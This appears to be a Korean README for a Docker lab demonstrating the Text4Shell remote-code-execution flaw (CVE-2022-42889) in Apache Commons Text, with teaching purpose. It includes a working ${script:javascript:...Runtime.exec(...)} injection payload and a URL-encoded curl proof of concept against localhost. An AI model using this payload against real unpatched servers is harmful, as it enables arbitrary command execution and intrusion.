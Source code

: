 # Apache Commons Text 원격 코드 실행 취약점 (CVE-2022-42889)

Apache Commons Text의 원격 코드 실행 취약점 (CVE-2022-42889, 일명 Text4Shell)을 시연하는 Docker 기반 환경을 구성한다.

---

## 취약점 개요

| 항목 | 내용 |
|:---|:---|
| 취약점 ID | CVE-2022-42889 |
| 영향 라이브러리 | Apache Commons Text |
| 문제 기능 | 문자열 보간 (String Interpolation) |
| CVSS 점수 | 9.8 (심각) |
| 영향 받는 버전 | 1.5 ~ 1.9 |
| 패치된 버전 | 1.10.0 이상 |

---

## 취약점 발생 원리

Apache Commons Text의 `StringSubstitutor` 클래스는 `${prefix:name}` 형식의 문자열 템플릿을 평가한다.  
취약한 버전에서는 다음과 같은 위험한 접두사가 기본 활성화되어 있다.

- `script:` : JVM 스크립트 엔진을 통한 코드 실행
- `dns:` : DNS 레코드 조회
- `url:` : 외부 URL에서 데이터 로드

공격자는 악성 입력을 통해 서버 측에서 임의의 명령어를 실행할 수 있다.

악성 입력 예시는 다음과 같다.

```text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```

## 디렉터리 구조
```text
CVE-2022-42889/
├── docker-compose.yml
├── Dockerfile
├── get-docker.sh
├── app/
│   ├── pom.xml
│   └── src/
│       ├── main/
│       │   ├── java/
│       │   │   └── com/
│       │   │       └── example/
│       │   │           ├── DemoApplication.java
│       │   │           └── log4shell/
│       │   │               └── Log4ShellApplication.java
│       │   └── resources/
│       │       └── application.properties

```

## 시연
### 컨테이너 빌드 및 실행
``` text
docker-compose up --build -d
```
### 악성 입력 전달

``` text
${script:javascript:java.lang.Runtime.getRuntime().exec('touch /tmp/hacked')}
```
1. ${script:javascript:...} 는 script: 접두사를 이용해 JVM의 자바스크립트 엔진을 호출하는 부분이다.
2. java.lang.Runtime.getRuntime().exec('touch /tmp/hacked') 는 서버 시스템 명령어 실행을 의미한다.
3. touch /tmp/hacked 명령어는 /tmp/hacked 파일을 생성하는 리눅스 명령이다.
4. 즉, 이 입력을 전달하면 서버에서 실제로 /tmp/hacked라는 빈 파일이 만들어진다.
url 인코딩 후, 아래와 같이 Localhost:8080에 입력
``` text
curl "http://localhost:8080/test?input=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fhacked%27%29%7D"
```
![PoC 요청 결과](./CVE-2022-42889/1.png)
명령이 실행 중이며 아직 종료되지 않았다는 의미이다. (touch 명령은 바로 끝남)

### 컨테이너 내부 파일 생성 여부 확인
![PoC 요청 결과](./CVE-2022-42889/2.png)
/tmp/hacked 파일이 생성된 것을 확인할 수 있다.
